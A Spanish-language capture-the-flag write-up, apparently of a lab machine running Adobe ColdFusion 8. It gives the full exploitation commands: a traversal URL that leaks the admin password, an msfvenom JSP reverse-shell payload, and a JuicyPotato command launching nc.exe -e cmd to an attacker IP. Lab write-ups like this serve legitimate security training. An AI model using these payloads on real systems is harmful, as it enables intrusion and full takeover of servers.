


# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows

Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus

Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services

Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.

Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/

Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8

Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp

Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra

Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.

Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 

Busco vulnerabilidades de Adobe ColdFusion 8

Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”

En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:

Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 

# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp

Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp

Comparto el archivo shellreverse.jsp
python3 -m http.server 80

Guardo archivo como tarea programada

Corro la tarea programada

Verifico la carga del archivo

Me pongo en escucha por el puerto 443

Recibo la consola autenticado como tolis en la máquina víctima

# Explotación WEB

# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”

Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe

Me pongo en escucha por el puerto 4646

Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"

Recibo  la consola

Encuentro la Flag

# Links útiles

* www.google.com
* www.crackstation.net
  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios

* Abuso de SeImpersonatePrivilege 

## Exploits

* Adobe ColdFusion - Directory Traversal | multiple/remote/14641.py
* JuicyPotato para explotar SeImpersonatePrivilege

## Herramientas

* ping
* nmap
* rpcclient
* certutil.exe
* nc.exe
* rlwrap
* python3 -m http.server 80
* java/jsp_shell_reverse_tcp.jsp
* searchsploit
* msfvenom
* hashid
* hash-identifier
* Crackstation

